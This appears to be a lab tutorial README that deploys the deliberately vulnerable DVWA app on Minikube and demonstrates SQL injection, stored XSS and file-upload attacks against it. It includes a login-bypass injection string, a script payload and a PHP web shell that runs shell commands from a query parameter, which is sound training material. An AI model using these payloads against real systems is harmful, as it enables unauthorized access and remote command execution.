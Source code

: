 # DVWA Kubernetes Deployment and Attack Demo

## Setup

1. Install Minikube: [Minikube Installation Guide](https://minikube.sigs.k8s.io/docs/start/)
2. Start Minikube:
    ```sh
    minikube start
    ```
3. Deploy DVWA:
    ```sh
    kubectl apply -f dvwa-deployment.yaml
    ```
4. Access DVWA at `http://<minikube-ip>:30001`.

## Attack Vectors

### 1. SQL Injection
- Steps to perform SQL Injection can be found [here](./attack_vectors/sql_injection.md).

### 2. Cross-Site Scripting (XSS)
- Steps to perform XSS can be found [here](./attack_vectors/xss.md).

### 3. File Upload
- Steps to perform File Upload attack can be found [here](./attack_vectors/file_upload.md).

  # SQL Injection Attack

## Steps

1. Navigate to the login page of DVWA.
2. Enter the following SQL injection string in both the username and password fields:
    ```
    ' OR '1'='1' -- 
    ```
3. Click "Login".
4. You should be logged in without valid credentials.

## Screenshots

![SQL Injection](./screenshots/sql_injection.png)

![Screenshot (267)](https://github.com/user-attachments/assets/eccb7026-9959-4390-86cc-32cd64bf2a54)

# Cross-Site Scripting (XSS) Attack


## Steps to Perform XSS

### Prerequisites

- Ensure DVWA is deployed and accessible at `http://<minikube-ip>:30001`.
- Set the DVWA security level to "Low" for easier demonstration.

### Steps

1. **Navigate to the XSS Section**:
   - Go to the DVWA application in your browser.
   - Click on the "XSS (Stored)" link from the menu.

2. **Input Malicious Script**:
   - In the "Message" text area, enter the following script:
     ```html
     <script>alert('XSS');</script>
     ```
   - Click the "Submit" button.

3. **View the Result**:
   - After submitting, you will be redirected to the page displaying your input.
   - Refresh the page, and you should see the alert pop up with the message "XSS".

# File Upload Attack

1. **Navigate to the File Upload Section**:
   - Go to the DVWA application in your browser.
   - Click on the "File Upload" link from the menu.

2. **Create a Malicious PHP File**:
   - Create a file named `shell.php` containing the following code:
     ```php
     <?php
     if(isset($_GET['cmd'])){
         system($_GET['cmd']);
     }
     ?>
     ```
   - This script allows the execution of shell commands passed through the `cmd` query parameter.

3. **Upload the Malicious File**:
   - On the File Upload page, click the "Browse" button and select the `shell.php` file you created.
   - Click the "Upload" button.

4. **Verify the Upload**:
   - Once uploaded, DVWA will confirm that the file was uploaded successfully.
   - The uploaded file can usually be accessed via a URL like:
     ```
     http://<minikube-ip>:30001/hackable/uploads/shell.php
     ```

5. **Execute a Command**:
   - Access the uploaded file by navigating to the URL:
     ```
     http://<minikube-ip>:30001/hackable/uploads/shell.php?cmd=whoami
     ```
   - This command will execute on the server, and you should see the output of the command, confirming that the file upload attack was successful.






